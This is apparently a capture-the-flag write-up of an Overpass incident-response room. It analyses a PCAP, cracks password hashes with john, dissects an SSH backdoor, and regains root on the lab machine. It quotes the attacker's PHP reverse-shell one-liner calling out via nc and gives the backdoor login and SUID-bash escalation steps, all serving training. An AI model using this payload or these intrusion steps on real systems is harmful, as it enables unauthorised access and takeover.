| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|    Easy    |  |  10.10.189.26 |  |

---

### [ What was the URL of the page they used to upload a reverse shell? ]

Seems like the first section of this room involves analyzing the PCAP file that has been provided. We can use Wireshark to do so.

Since we need to find the URL of the page that was used to upload a reverse shell, we can focus on HTTP traffic. To filter out only HTTP traffic, we can simply type the keyword `http` in the search bar:



We can see that there is a POST request being made to **/development**, with the payload being a reverse shell script called **upload.php**.

---

### [ What payload did the attacker use to gain access? ]

To view the contents of **upload.php**, we can right-click on the packet of interest, click on **Follow** > **HTTP Stream**.



**Payload:** `\<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

---

### [ What password did the attacker use to privesc? ]

Looking at the payload from earlier, we can see that the attacker is trying to open up a reverse shell into port 4242 on his local machine. Sure enough, scanning through the PCAP file, I noticed several TCP packets being sent from the target machine to port 4242 of another machine (the attacker's). 

We can follow the TCP traffic by right-clicking on any of these packets, then clicking on **Follow** > **TCP Stream**:



The TCP Stream shows the commands that were being executed by the attacker in the reverse shell session.

The password that was used for privesc was: **whenevernoteartinstant**.

---

### [ How did the attacker establish persistence? ]



Following the TCP traffic, we see that the attacker git cloned a **SSH backdoor** program onto the target machine. This establishes persistence as the attacker can now ssh into the target machine at any given moment through this backdoor.

---

### [ Using the fasttrack wordlist, how many of the system passwords were crackable? ]

From the TCP stream, we can find out the contents of the /etc/shadow file on the target machine. This file holds the hashed passwords of the users on the machine:



It seems like there are 5 users on the machine. Looking at the format of the hashes, we can deduce that sha512crypt was used as the hashing algorithm.

After saving the hashes (last 5 lines) to a text file, I then used `john` to crack the hashes with the [fasttrack wordlist](https://github.com/drtychai/wordlists/blob/master/fasttrack.txt):

``````
john hashes.txt --wordlist=fasttrack.txt --format=sha512crypt
``````



`john` managed to crack four out of the five hashed passwords. We can note these passwords down in case we need to use them later on.

---

### Now that you've found the code for the backdoor, it's time to analyse it.

### [ What's the default hash for the backdoor? ]

Looking at the Github page for the ssh backdoor program, I noticed a script called **main.go**:



The default hash value is hardcoded within the script: 

```
bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
```

---

### [ What's the hardcoded salt for the backdoor? ]



Similarly, the hardcoded salt can be found in the script, as shown above: `1c362db832f3f864c8c2fe05f2002a05`

---

### [ What was the hash that the attacker used? - go back to the PCAP for this! ]

Analyzing the script further, we can see that if the user provides the `-a` tag when running the program, they can input their own hash.



Looking back at the PCAP file, we can see that the attacker did indeed do this when running the backdoor.



Hence, the hash that the attacker used is:

```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

---

### [ Crack the hash using rockyou and a cracking tool of your choice. What's the password? ]

Firstly, I passed the hash through an online [hash identifer](https://www.tunnelsup.com/hash-analyzer/) and found out that the hash was using the SHA512 algorithm.

Next, I tried using `john` to crack the hash directly with the rockyou wordlist. However, it was unable to do so. After trying for awhile, I decided to look back at the backdoor code:



I realized that the hash provided by the attacker using the `-a` tag is actually the hashed result of both the password and the default salt. Hence, in order for us to successfully crack the hash, we have to give `john` the salt value, which we have from the previous section.

I saved both the hash and the salt value in a text file, separated by a `$` symbol. This symbol will be used by `john` to differentiate between the hash and the salt:



Next, I ran `john` with the following command:

```
john hash2.txt --wordlist=/usr/share/wordlists/rockyou.txt --format='dynamic=sha512($p.$s)'
```

Notice the use of the `sha512($p.$s)` in the `--format` option. This indicates to `john` that there is a salt being used.



And with that, we are able to gain the password that the attacker uses for the backdoor: **november16**

---

### Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again. There's flags on the box that Overpass can't afford to lose by formatting the server!

### [ The attacker defaced the website. What message did they leave as a heading? ]

Since a website was mentioned, we can try navigating to the IP address in our browser:



The message left was: **H4ck3d by CooctusClan**

---

### [ Using the information you've found previously, hack your way back in! ]

So far, we have all of the key information that is required for us to hack our way back into the target machine. We will simply be reusing the SSH backdoor that the attacker has set up.

* Firstly, we have the user account that the attacker used to set up the SSH backdoor: **james**

* Next, we also have the password that the attacker is using to access the machine through the backdoor: **november16**

* From the backdoor code, we also know that the default port that the backdoor is opened through is: **2222**

With these information, we can ssh into the target machine.

``` 
ssh james@10.10.189.26 -p 2222
```



And we're in!

---

### [ What's the user flag? ]

The user flag can be found in the home directory of james:



---

### [ What's the root flag? ]

The first thing I tried to do was to find out the **sudo privileges** that the james account had. However, when prompted for james' password, I realised that **november16** did not work. I also tried using his previous password **whenevernoteartinstant**, but that did not work as well.

Next, I tried logging into the other user accounts using the passwords that were cracked earlier on in the room. Unfortunately, that did not work.

I then tried looking for any hidden files or directories in james' home directory:



Sure enough, I immediately noticed a suspicious file called `.suid_bash` that was owned by root! It also has the SUID-bit set, which means that we can run this program as root.

To do so, we use the command:

```
./.suid_bash -p
```

>

This opens up a root shell!

We can then hop over to /root and obtain the root flag:



